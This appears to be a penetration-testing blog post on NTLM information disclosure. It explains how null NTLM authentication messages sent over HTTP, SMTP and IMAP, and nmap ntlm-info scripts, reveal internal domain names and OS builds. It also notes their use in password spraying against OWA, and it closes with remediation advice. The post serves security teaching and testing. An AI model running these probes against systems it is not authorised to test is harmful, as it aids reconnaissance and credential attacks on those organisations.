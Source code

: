 ```yaml
---
title: Information Disclosure in NTLM Authentication
layout: "post"
categories: "Windows"
tags: ["Windows"]
---
```


During an offensive security engagement it may not be a major vulnerability that leads to your end-goal, but a combination of lower severity findings compounded to make a larger impact. This post discusses information disclosure through NTLM authentication, which is one of those smaller vulnerabilities that can lead to greater attacks under the right circumstances. Additionally, we will demonstrate methods for invoking an NTLM challenge response, even when no login page is present, to coerce this information.


## Overview

NTLM is a challenge/response authentication protocol utilized by Windows systems in which the user's actual password is never sent over the wire. Instead, the requesting client receives a challenge response from the server and must perform a calculation that proves their identity. I am far over simplifying this process, but the diagram below is a good example of how this authentication scheme works in a Windows AD environment.

![](/assets/posts/ntlm-info/ntlm_diagram.gif)

Now, how does this help in getting sensitive internal information? Once a target is identified as using NTLM authentication, we can initiate a connection and send anonymous (null) credentials, which will prompt the server to respond with an NTLM Type 2 challenge response. This response message can be decoded to reveal information about the server, such as: NetBIOS, DNS, and OS build version information:

```text
Target_Name: DEMO
NetBIOS_Domain_Name: DEMO
NetBIOS_Computer_Name: SRV01
DNS_Domain_Name: demo.local
DNS_Computer_Name: srv01.demo.local
DNS_Tree_Name: demo.local
Product_Version: 6.3.9600
```


## Impact

During a penetration test this can be used to identify internal naming conventions, determine end-of-life operating systems, and discover internal DNS names. To describe one potential use-case for this data, the domain suffix, found in the decoded response, is often required for password spraying attacks against Outlook web applications. Targeting OWA is a common technique used by hackers to identify valid domain credentials, and made possible through this exposure.

![](/assets/posts/ntlm-info/owa_login.png)

Although not the most prestigious vulnerability, if found against a bug bounty target, you may be able to leverage this internal disclosure for a few quick points:

![](/assets/posts/ntlm-info/ntlm_bounty.png)


## Exploitation (HTTP)

Typically, when visiting a website or directory requiring privileged access, the server will initiate a login prompt. This allows the client to send blank username and password values to check for NTLM authentication and receive the encoded response. However, if the target server is configured to allow windowsAuthentication, it may be possible to invoke this response without a login prompt. This can be done by adding `Authorization: NTLM TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=` to the request headers.

![](/assets/posts/ntlm-info/http_req.png)

Once an NTLM challenge is returned in the "WWW-Authenticate" value of the response headers, it can be decoded to capture internal information. I personally use Burp's NTLM Challenge Decoder, but multiple other scripts have been written that can perform these actions.

![](/assets/posts/ntlm-info/ntlmssp_decode.png)


## Alternate Protocols

Few may know the trick of adding the "Authorization" header to prompt a response from the server over HTTP. However, I recently discovered NTLM in other protocols that can be exploited using a similar approach. Through Telnet we can interact with other services, outside of the browser, to force an NTLM challenge response and decode this value to attain the same information.

### SMTP
```bash
root@kali: telnet example.com 587
220 example.com SMTP Server Banner

>> HELO
250 example.com Hello [x.x.x.x]

>> AUTH NTLM
334 NTLM supported

>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```


### IMAP
```bash
root@kali: telnet example.com 143
* OK The Microsoft Exchange IMAP4 service is ready.

>> a1 AUTHENTICATE NTLM
+

>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
+ TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```


### & more...
If you've spent any time around Windows you may have guessed this was possible, as NTLM authentication can be found in any number of places. Protocols such as: HTTP, SMTP, IMAP, POP3, RDP, MS-SQL, NNTP, TELNET, and more may also be susceptible to this type of disclosure. While exploiting this in other protocols requires more than just a Telnet session, we can easily automate the search using NMAP's NSE scripts:

```bash
root@kali: nmap -sS -v --script=*-ntlm-info --script-timeout=60s example.com

Nmap scan report for x.x.x.x
Host is up (0.0063s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
| http-ntlm-info:
|   Target_Name: IIS01
|   NetBIOS_Domain_Name: IIS01
|   NetBIOS_Computer_Name: IIS01
|   DNS_Domain_Name: IIS01
|   DNS_Computer_Name: IIS01
|_  Product_Version: 6.3.9600
```

This command will run NMAP against the target and execute the scripts listed below, given the proper ports are identified. By default, "http-ntlm-info.nse" will attempt an authentication request by adding the "Authorization" header against the server's root page. This can be modified by adding "--script-args http-ntlm-info.root=/EWS" to the command line arguments and adjusting the page value as needed.

```text
http-ntlm-info.nse
imap-ntlm-info.nse
ms-sql-ntlm-info.nse
nntp-ntlm-info.nse
pop3-ntlm-info.nse
rdp-ntlm-info.nse
smtp-ntlm-info.nse
telnet-ntlm-info.nse
```


## Defensive Measures
The recommended remediation for this vulnerability is to disable NTLM authentication over HTTP in the IIS Manager. Restricting public access to the ports utilizing Windows Authentication is another approach to containing the exposure and will help to prevent brute-force attacks against the service.

### References and Additional Resources:
* [http://davenport.sourceforge.net/ntlm.html](http://davenport.sourceforge.net/ntlm.html)
* [https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm)
* [https://blog.gdssecurity.com/labs/2014/2/12/http-ntlm-information-disclosure.html](https://blog.gdssecurity.com/labs/2014/2/12/http-ntlm-information-disclosure.html)